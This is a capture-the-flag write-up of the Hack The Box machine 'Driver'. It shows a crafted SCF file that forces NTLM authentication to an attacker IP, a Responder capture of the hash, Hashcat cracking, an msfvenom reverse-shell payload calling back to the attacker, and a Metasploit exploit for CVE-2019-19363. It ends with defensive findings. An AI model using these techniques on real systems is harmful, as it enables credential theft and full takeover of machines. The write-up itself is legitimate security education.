


# Driver — Hack The Box Writeup

| Property       | Value                                             |
|----------------|---------------------------------------------------|
| **Machine**    | Driver                                            |
| **OS**         | Windows 10 Enterprise (Build 10240)               |
| **IP**         | 10.129.102.93                                     |
| **Difficulty** | Easy                                              |
| **Author**     | kalipiotr                                         |
| **Tags**       | SCF File Attack, NTLMv2 Relay, Responder, WinRM, Ricoh Printer Driver Privesc |

---

## Summary

Driver is a Windows-based Easy machine hosting an MFP (Multi-Function Printer) Firmware Update Center on IIS. The web application accepts firmware file uploads that are placed on an internal file share and reviewed by staff. By uploading a malicious Shell Command File (`.scf`), we coerce the reviewing user's system into authenticating against our rogue SMB server, capturing an NTLMv2 hash. After cracking the hash, we obtain WinRM access as user `tony`. Privilege escalation is achieved by exploiting a vulnerable Ricoh PCL6 printer driver (CVE-2019-19363), which grants SYSTEM-level code execution.

---

## 1. Reconnaissance

### 1.1 Port Scan

A full TCP port scan with service and script detection was performed using Nmap.

```bash
nmap -Pn -sC -sV -p- -T4 -v -oN nmap.txt 10.129.102.93
```

| Port     | State | Service         | Version / Notes                               |
|----------|-------|-----------------|-----------------------------------------------|
| 80/tcp   | open  | HTTP            | Microsoft IIS 10.0 — PHP 7.3.25              |
| 135/tcp  | open  | MSRPC           | Microsoft Windows RPC                         |
| 445/tcp  | open  | SMB             | Windows 7–10, signing **disabled**            |
| 5985/tcp | open  | WinRM (HTTP)    | Microsoft HTTPAPI 2.0                         |

**Key observations:**
- Port 80 responds with `401 Unauthorized` and a Basic-auth prompt: *"MFP Firmware Update Center. Please enter password for admin"*.
- SMB message signing is disabled — a potential avenue for relay attacks.
- Port 5985 (WinRM) is open — if we obtain valid credentials we can get a remote shell.

> **Why these ports matter:**  
> The combination of an HTTP service with file upload (80), SMB with signing disabled (445), and WinRM (5985) immediately suggests a credential-theft-to-shell pipeline. SMB without signing means captured hashes could also be relayed (not just cracked), and WinRM gives us a clean interactive shell once we have valid credentials — no need for a noisy reverse shell or exploit.

### 1.2 Web Application (Port 80)

```bash
curl -I http://10.129.102.93
# HTTP/1.1 401 Unauthorized
# WWW-Authenticate: Basic realm="MFP Firmware Update Center. Please enter password for admin"
# X-Powered-By: PHP/7.3.25
# Server: Microsoft-IIS/10.0
```

> **Theory — HTTP Basic Authentication:**  
> Basic Auth transmits credentials as a Base64-encoded `username:password` string in the `Authorization` header. It provides no encryption on its own — without HTTPS, credentials travel in cleartext. Here it also leaks the username hint (`admin`) directly in the `realm` string, which makes guessing trivial.

Attempting default credentials `admin:admin` grants access to the application.



After logging in, the following information is obtained:
- Contact email: `support@driver.htb` → hostname added to `/etc/hosts`.
- The **Firmware Updates** section contains a file upload form with the note:  
  *"Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon."*



This tells us that an employee will **browse** the file share where our upload lands — a perfect setup for an SCF/LNK credential theft attack.

---

## 2. Initial Access — SCF File Upload + NTLMv2 Capture

### 2.1 Attack Theory — Forced Authentication via SCF Files

Windows Shell Command Files (`.scf`) are a legacy format used to define desktop commands (e.g., "Show Desktop"). They support an `IconFile` directive that specifies the path to an icon resource — including UNC paths (`\\host\share\file`).

**Why this is dangerous:**  
When Windows Explorer renders a directory listing, it automatically attempts to resolve icon paths for every file in that directory. If the icon path points to an external SMB server, the operating system initiates an SMB connection and performs NTLM authentication **transparently** — no user click or interaction required. The user merely needs to open the folder in Explorer.

**The NTLM authentication flow:**
1. Explorer sees the `.scf` file and reads its `IconFile` UNC path.
2. Windows initiates an SMB connection to the attacker's IP.
3. The attacker's SMB server (Responder) sends an NTLM challenge.
4. The victim's machine responds with the user's NTLMv2 hash (derived from their password + the challenge).
5. The attacker captures this challenge-response pair, which can be cracked offline.

> **Why SCF over LNK?**  
> Both `.scf` and `.lnk` files can achieve forced authentication, but `.scf` files are plain-text and trivial to create in any editor — no special tooling needed. The `.lnk` format is binary and typically requires PowerShell or `pylnk` to generate. For this attack, simplicity wins.

### 2.2 Crafting the Malicious SCF File

```ini
[Shell]
Command=2
IconFile=\\10.10.15.197\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

> **Why the `@` prefix in the filename (`@driver.scf`)?**  
> Windows Explorer sorts files alphabetically by default. The `@` character sorts before all letters and digits, ensuring our malicious file appears at the **top** of the directory listing. This maximizes the chance that Explorer will attempt to render its icon before the user scrolls or navigates away. It's a small detail, but in time-sensitive scenarios (e.g., the share is periodically cleaned), it increases reliability.

### 2.3 Starting Responder

Responder is a multi-protocol poisoner and rogue authentication server. For this attack, we only need its SMB server component, which presents an NTLM challenge and logs the victim's response.

```bash
sudo responder -I tun0 -wv
```

| Flag | Purpose |
|------|---------|
| `-I tun0` | Listen on the VPN interface |
| `-w` | Enable the WPAD (Web Proxy Auto-Discovery) rogue server |
| `-v` | Verbose output — show full hashes |

### 2.4 Uploading and Capturing the Hash

After uploading `@driver.scf` through the firmware update form, Responder captures multiple NTLMv2 hashes from the user **tony**:

```
[SMB] NTLMv2-SSP Client   : 10.129.102.93
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:f2029ba672d6c6a1:B9F30B19D6BB51...
```

> **NTLMv2 vs Net-NTLMv2 — a common source of confusion:**  
> What Responder captures is technically a **Net-NTLMv2** hash — a challenge-response pair tied to a specific authentication session. It **cannot** be used in pass-the-hash attacks (those require the raw NT hash). However, it **can** be cracked offline because the response is derived from the user's password. The Hashcat mode for Net-NTLMv2 is `5600`.

### 2.5 Cracking the Hash

```bash
hashcat -m 5600 tony.ntlmv2 /usr/share/wordlists/rockyou.txt
```

**Result:** `tony:liltony`

> **Why Hashcat over John?**  
> Both work, but Hashcat leverages GPU acceleration which makes NTLMv2 cracking significantly faster. On a modern GPU, the entire `rockyou.txt` wordlist (14M entries) completes in seconds for this hash type.

### 2.6 Credential Validation & Access Assessment

Before attempting a shell, it's important to understand what level of access `tony` has:

```bash
# Check if credentials are valid + admin status
nxc smb 10.129.102.93 -u tony -p liltony
# [+] DRIVER\tony:liltony  (no Pwn3d! = not local admin)

# Enumerate shares
nxc smb 10.129.102.93 -u tony -p liltony --shares
# ADMIN$    — no access
# C$        — no access
# IPC$      — READ
```

Tony is **not a local administrator** and has no write access to administrative shares — PsExec, smbexec, and wmiexec all require write access to `ADMIN$` or `C$`, so they are not viable.

> **Why check shares before trying a shell?**  
> Lateral movement tools like PsExec work by writing a service binary to `ADMIN$` and creating a Windows service. Without write access to that share, they silently fail. Checking upfront saves time and avoids generating unnecessary noise in logs.

### 2.7 Shell via Evil-WinRM

Since port 5985 is open, we try WinRM. This service only requires the user to be a member of the **Remote Management Users** group — local admin is not needed.

```bash
evil-winrm -i 10.129.102.93 -u tony -p liltony
```

```powershell
*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
cb6b08f9a043d77ede1a637f3505209b
```

**🚩 User flag obtained.**

---

## 3. Privilege Escalation — Ricoh Printer Driver (CVE-2019-19363)

### 3.1 Enumeration

With a low-privilege shell, the standard Windows enumeration process begins:

**WinPEAS** reveals a scheduled task owned by Administrator:
```
(DRIVER\Administrator) VerifyFirmware: C:\Users\tony\appdata\local\job\job.bat
Permissions file: tony [Allow: AllAccess]
Trigger: At log on of DRIVER\tony
```

At first glance this looks promising — tony has full write access to a script run by Administrator. However, deeper inspection reveals the task **runs as tony**, not as Administrator:

```bash
schtasks /query /tn "VerifyFirmware" /fo LIST /v
# Run As User: tony
```

> **Why this dead end matters:**  
> A common misconception is that a task *created by* Administrator runs *as* Administrator. The `Run As User` field is what determines execution context. Always verify — WinPEAS shows the creator, not necessarily the runtime user.

### 3.2 The Real Vector — PowerShell Console History

One of the most underrated enumeration sources on Windows is the **PSReadLine history file**:

```powershell
type C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

```
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

This reveals the exact printer driver installed on the system: **RICOH PCL6 UniversalDriver V4.23**.

> **Theory — Why PowerShell History is valuable:**  
> Since PowerShell 5.0, the PSReadLine module records every command typed in a PowerShell console to a plaintext file. Unlike the Windows Event Log (which requires explicit Script Block Logging), this file exists by default and is rarely cleaned. It often reveals installed software, credentials passed as arguments, internal hostnames, and configuration changes.

### 3.3 CVE-2019-19363 — Ricoh Printer Driver DLL Hijacking

**What is the vulnerability?**

Ricoh PCL6 UniversalDriver V4.23 (and earlier) installs its driver files into a directory where the ACLs grant **Full Control** to all authenticated users. Among these files is `headerfooter.dll`, which is loaded by the Windows Print Spooler service (`spoolsv.exe`) — a service running as `NT AUTHORITY\SYSTEM`.

**The attack chain:**
1. An attacker replaces `headerfooter.dll` in the Ricoh driver directory with a malicious DLL.
2. When a print job is initiated (or the spooler restarts), the service loads the malicious DLL.
3. The DLL's code executes in the context of `NT AUTHORITY\SYSTEM`.

**Why this is so impactful:**  
The Print Spooler is one of the most privileged services on Windows. It runs as SYSTEM by default and historically has been a rich source of privilege escalation bugs (PrintNightmare, CVE-2020-1048, etc.). Combining weak directory ACLs with a SYSTEM-level service loader creates a trivial-to-exploit LPE.

### 3.4 Exploitation via Metasploit

**Step 1 — Generate a Meterpreter payload and get a session:**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.197 LPORT=4444 --platform windows -f exe -o shell.exe
```

The payload is uploaded via Evil-WinRM and executed to obtain a Meterpreter session.

**Step 2 — Migrate to an interactive process:**

The initial Meterpreter session runs in Session 0 (non-interactive services session). The Ricoh exploit module requires a session that can interact with the desktop (Session 1) because it needs to call `AddPrinter()` — a Win32 API that requires a user session context.

```bash
meterpreter > ps
# PID   Name           Arch  Session  User         Path
# 4168  OneDrive.exe   x86   1        DRIVER\tony  C:\Users\tony\...\OneDrive.exe

meterpreter > migrate 4168
# [*] Migration completed successfully.
```

> **Why migrate to OneDrive.exe specifically?**  
> We need any process running in **Session 1** (interactive desktop) as our user. OneDrive.exe is a stable, long-running user-mode process that won't terminate unexpectedly. Migrating to a short-lived process (like `notepad.exe`) risks losing the session.

**Step 3 — Run the Ricoh exploit:**

```bash
use exploit/windows/local/ricoh_driver_privesc
set SESSION 6
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST tun0
run
```

```
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Adding printer wayJQjxK...
[*] Meterpreter session 7 opened (10.10.15.197:4444 -> 10.129.102.93:50521)
[*] Deleting printer wayJQjxK
```

> **What the exploit does behind the scenes:**  
> 1. Drops a malicious `headerfooter.dll` into the Ricoh driver directory.  
> 2. Creates a temporary printer using `AddPrinter()` with the Ricoh driver — this forces the Print Spooler to load the DLL.  
> 3. The DLL executes the Meterpreter stager as SYSTEM.  
> 4. Cleans up by deleting the temporary printer and the DLL.

**Step 4 — SYSTEM shell and root flag:**

```bash
meterpreter > shell
C:\Windows\system32> type c:\Users\Administrator\Desktop\root.txt
4bad7731115e70e4d58f437a88a2fdc0
```

**🚩 Root flag obtained.**

---

## 4. Attack Path Summary

```
                    ┌─────────────────────────┐
                    │  Nmap: 80, 135, 445, 5985│
                    └───────────┬─────────────┘
                                │
                    ┌───────────▼─────────────┐
                    │  IIS: admin:admin login  │
                    └───────────┬─────────────┘
                                │
                    ┌───────────▼─────────────┐
                    │  Upload @driver.scf      │
                    │  → coerce SMB auth       │
                    └───────────┬─────────────┘
                                │
                    ┌───────────▼─────────────┐
                    │  Responder captures      │
                    │  DRIVER\tony NTLMv2 hash │
                    └───────────┬─────────────┘
                                │
                    ┌───────────▼─────────────┐
                    │  Hashcat → tony:liltony  │
                    └───────────┬─────────────┘
                                │
                    ┌───────────▼─────────────┐
                    │  Evil-WinRM → user shell │
                    │  🚩 user.txt             │
                    └───────────┬─────────────┘
                                │
                    ┌───────────▼─────────────┐
                    │  Ricoh PCL6 DLL Hijack   │
                    │  CVE-2019-19363          │
                    │  → SYSTEM shell          │
                    │  🚩 root.txt             │
                    └─────────────────────────┘
```

---

## 5. Findings & Recommendations

### Finding 1 — Default Credentials on Web Application

| Attribute     | Detail |
|---------------|--------|
| **Severity**  | 🔴 High |
| **MITRE**     | T1078 — Valid Accounts |
| **Description** | The MFP Firmware Update Center uses `admin:admin` as default credentials, granting full access to the file upload functionality. |

**Recommendations:**
- Enforce strong, unique passwords on all web applications — especially administrative interfaces.
- Implement an account lockout policy (e.g., 5 failed attempts → 15-minute lockout) to slow brute-force attacks.
- Add multi-factor authentication (MFA) to administrative panels.
- Remove or change all vendor-default credentials before deploying any application to production.

---

### Finding 2 — Forced Authentication via File Upload (SCF Attack)

| Attribute     | Detail |
|---------------|--------|
| **Severity**  | 🔴 Critical |
| **MITRE**     | T1187 — Forced Authentication |
| **Description** | The firmware upload feature places user-submitted files on a network share that employees browse using Windows Explorer. An attacker can upload a `.scf` or `.lnk` file that forces NTLM authentication to an external server, leaking NTLMv2 hashes. |

**Recommendations:**
- **Input validation:** Restrict uploaded file types to expected firmware formats (e.g., `.bin`, `.fw`, `.hex`). Reject all other extensions including `.scf`, `.lnk`, `.url`, `.library-ms`, and `.searchConnector-ms`.
- **Network segmentation:** Block outbound SMB (TCP 445) and NetBIOS (TCP 137–139) traffic from internal workstations to external/untrusted networks at the firewall level. This prevents NTLM coercion from reaching an attacker's listener even if a malicious file is uploaded.
- **Disable NTLM where possible:** Migrate authentication to Kerberos-only by configuring the GPO *Network security: Restrict NTLM: Outgoing NTLM traffic to remote servers* → **Deny all**.
- **Automate file processing:** Replace manual file review with an automated ingestion pipeline that processes firmware files programmatically, never rendering them in Explorer.

---

### Finding 3 — Weak User Password

| Attribute     | Detail |
|---------------|--------|
| **Severity**  | 🟠 High |
| **MITRE**     | T1110.002 — Password Cracking |
| **Description** | The user `tony`'s password (`liltony`) was cracked from the captured NTLMv2 hash in seconds using the common `rockyou.txt` wordlist. |

**Recommendations:**
- Enforce a minimum password length of 14+ characters with complexity requirements.
- Deploy a password filter (e.g., Azure AD Password Protection or `ncrack`-based custom filters) that rejects passwords found in common wordlists.
- Implement regular password audits by running offline cracking against the NTDS.dit or SAM database to proactively identify weak passwords.
- Consider passwordless authentication (Windows Hello for Business, FIDO2 keys) for privileged accounts.

---

### Finding 4 — SMB Signing Disabled

| Attribute     | Detail |
|---------------|--------|
| **Severity**  | 🟡 Medium |
| **MITRE**     | T1557.001 — LLMNR/NBT-NS Poisoning |
| **Description** | SMB message signing is disabled on the target host, allowing potential man-in-the-middle and NTLM relay attacks. |

**Recommendations:**
- Enable and **require** SMB signing on all Windows hosts via Group Policy:
  - *Microsoft network server: Digitally sign communications (always)* → **Enabled**
  - *Microsoft network client: Digitally sign communications (always)* → **Enabled**
- Disable LLMNR and NBT-NS via GPO to eliminate poisoning vectors.
- Consider deploying EPA (Extended Protection for Authentication) on all services to bind channel and service information to the NTLM exchange, preventing relay.

---

### Finding 5 — Ricoh Printer Driver Local Privilege Escalation (CVE-2019-19363)

| Attribute     | Detail |
|---------------|--------|
| **Severity**  | 🔴 Critical |
| **MITRE**     | T1574.001 — DLL Search Order Hijacking |
| **Description** | The installed Ricoh PCL6 UniversalDriver V4.23 creates its driver directory with overly permissive ACLs. Any local user can replace `headerfooter.dll`, which is subsequently loaded by the Print Spooler (running as SYSTEM), resulting in arbitrary code execution as SYSTEM. |

**Recommendations:**
- **Patch immediately:** Update the Ricoh driver to a version that fixes CVE-2019-19363 (V4.26+), or remove it entirely if the printer is no longer in use.
- **Harden the Print Spooler:**
  - Disable the Print Spooler service on servers that do not need printing (`Stop-Service Spooler; Set-Service Spooler -StartupType Disabled`).
  - Restrict printer driver installation via GPO: *Point and Print Restrictions* → **Only allow installation from approved servers**.
- **Fix directory ACLs:** Audit all printer driver directories under `C:\ProgramData\` and `C:\Windows\System32\spool\drivers\` for overly permissive ACLs. Remove `Full Control` / `Modify` permissions for non-administrative users.
- **Monitor DLL loads:** Deploy Sysmon with a configuration that logs DLL loads by `spoolsv.exe` (Event ID 7) from non-standard paths. Alert on any `headerfooter.dll` load from a user-writable directory.

---

### Finding 6 — WinRM Exposed Without Network Restrictions

| Attribute     | Detail |
|---------------|--------|
| **Severity**  | 🟡 Medium |
| **MITRE**     | T1021.006 — Remote Services: Windows Remote Management |
| **Description** | The WinRM service (port 5985) is accessible from any network without IP-based restrictions. Combined with valid credentials, this provides a clean interactive shell. |

**Recommendations:**
- Restrict WinRM listeners to specific source IP ranges using `winrm set winrm/config/service @{IPv4Filter="10.0.0.0/8"}` or Windows Firewall rules.
- Require HTTPS (port 5986) for WinRM to encrypt traffic in transit.
- Limit WinRM access to dedicated management VLANs / jump hosts only.
- Audit the **Remote Management Users** group membership and remove users who do not require remote management access.

---

## 6. Tools Used

| Tool           | Purpose                                 |
|----------------|-----------------------------------------|
| Nmap           | Port scanning, service enumeration      |
| cURL           | HTTP fingerprinting                     |
| Responder      | Rogue SMB server, NTLMv2 hash capture   |
| Hashcat        | NTLMv2 hash cracking (GPU-accelerated)  |
| NetExec (nxc)  | SMB credential validation, share enum   |
| Evil-WinRM     | Remote shell via WinRM                  |
| WinPEAS        | Windows privilege escalation enumeration|
| Metasploit     | Meterpreter shell, Ricoh driver exploit |
| msfvenom       | Payload generation                      |

---

## 7. Lessons Learned

1. **SCF files are underrated** — unlike `.lnk` files, `.scf` files require no special tooling to craft and work reliably for NTLM coercion whenever a user browses a directory in Explorer. They're plain-text and trivially customizable.
2. **PowerShell history is gold** — the `ConsoleHost_history.txt` file revealed the exact printer driver installed, pointing directly to the privilege escalation vector. This file exists by default on modern Windows and is rarely cleaned by administrators.
3. **Meterpreter session context matters** — the Ricoh exploit requires a session running in an interactive desktop session (Session 1) because `AddPrinter()` is a Win32 API that must run in a user session. The initial WinRM-based Meterpreter landed in Session 0 (services), which caused the exploit to fail. Migrating to `OneDrive.exe` (a stable Session 1 process) solved this.
4. **Dead ends teach you to verify assumptions** — the `VerifyFirmware` scheduled task looked like an easy win (tony had full write access to the script), but closer inspection showed it ran *as* tony, not Administrator. Always check `Run As User`, not just the task creator.
5. **Default credentials remain a real-world problem** — `admin:admin` on the firmware update portal gave initial access to the attack surface. In real engagements, default credentials are consistently among the top initial access vectors.

---

## References

- [CVE-2019-19363 — Ricoh Printer Drivers LPE (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2019-19363)
- [Pentagrid — Local Privilege Escalation in Ricoh Printer Drivers](https://pentagrid.ch/en/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/)
- [MITRE ATT&CK — Forced Authentication (T1187)](https://attack.mitre.org/techniques/T1187/)
- [MITRE ATT&CK — DLL Search Order Hijacking (T1574.001)](https://attack.mitre.org/techniques/T1574/001/)
- [HackTricks — Places to Steal NTLM Creds](https://book.hacktricks.wiki/en/windows-hardening/ntlm/places-to-steal-ntlm-creds.html)
- [Microsoft — Restricting NTLM Usage](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-outgoing-ntlm-traffic-to-remote-servers)
- [Microsoft — SMB Signing Overview](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/overview-server-message-block-signing)
